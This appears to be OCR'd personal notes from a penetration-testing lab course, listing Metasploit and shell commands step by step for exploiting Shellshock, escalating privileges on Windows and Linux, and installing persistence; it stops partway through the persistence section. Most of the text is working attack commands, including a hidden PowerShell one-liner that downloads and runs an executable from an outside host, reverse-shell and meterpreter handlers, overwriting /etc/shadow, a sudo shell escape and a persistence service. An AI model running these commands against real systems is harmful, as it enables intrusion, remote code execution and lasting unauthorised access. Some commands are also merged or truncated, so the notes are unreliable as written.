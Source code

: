 	        **Metasploit**
	        - `nmap -sV 192.19.208.3`
	        - Exploit shellshock
	        - `service postgresql start && msfconsole -q search shellshock use exploit/multi/http/apache_mod_cgi_bash_env_exec setg RHOSTS 192.19.208.3 setg RHOST 192.19.208.3 set TARGETURI /gettime.cgi run`
	        - `use post/linux/gather/enum_configs`
	        - `use post/linux/gather/enum_network`
	        - `use post/linux/gather/enum_system`
	        - `use post/linux/gather/checkvm`
	- Privilege Escalation
	    - Windows
	        - `nmap -sV 10.2.29.53`
	        - `service postgresql start && msfconsole -q`
	        - `setg RHOSTS 10.2.29.53 setg RHOST 10.2.29.53`
	        - `search web_delivery use exploit/multi/script/web_delivery`
	        - `set target PSH\\ (Binary) set payload windows/shell/reverse_tcp set PSH-EncodedCommand false set LHOST eth1 exploit`
	        - `powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\\P4MPrq7y.exe')"; (new-object System.Net.WebClient).DownloadFile('<http://10.10.24.2:8080/y3MMtnMlRkQ81pA>', $z); invoke-item $z`
	        - `sessions 1`
	        - `whoami`
	        - `background search shell_to use post/multi/manage/shell_to_meterpreter set LHOST eth1 set SESSION 1 show advanced set WIN_TRANSFER VBS options`
	        - `run sessions 2`
	        - `ps migrate 5048 get privs`
	        - `cd C:\Users\student\Desktop\PrivescCheck shell dir`
	        - `powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck”`
	        - `powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%”`
	        - `psexec.py administrator@10.2.29.53cmd.exe`
	        - `cd C:\\Users\\Administrator\\Desktop dir type flag.txt`
	    - Linux
	        - `whoami`
	        - `find / -not -type l -perm -o+w`
	        - `s -l /etc/shadow cat /etc/shadow`
	        - `openssl passwd -1 -salt abc password123`
	        - `vim /etc/shadow`
	        - `su`
	        - `cd ls cat flag`
	        - Misconfigured sudo
	        - `find / -user root -perm -4000 -exec ls -ldb {} \\;`
	        - `find / -perm -u=s -type f 2>/dev/null`
	        - `sudo -l`
	        - `sudo man ls`
	        - `!/bin/bash`
	        - got root
	- Persistence
		- **Windows**
		    - `nmap -sV 10.2.20.244`
		    - Exploit rejetto
		    - Got meterpreter sessions
		    - `sysinfo`
		    - `getuid`
		    - `background search platform:windows persistence use exploit/windows/local/persistence_service info set payload windows/meterpreter/reverse_tcp set LPORT 4443 sessions set SESSION 3 run`
		    - Kill all MSF sessions
		    - `sessions -K`
		    - `exit`
		    - `msfconsole -q use multi/handler options set payload windows/meterpreter/reverse_tcp set LHOST eth1 set LPORT 4444 run`
		    - Second approach RDP
		    - `service postgresql start && msfconsole -q`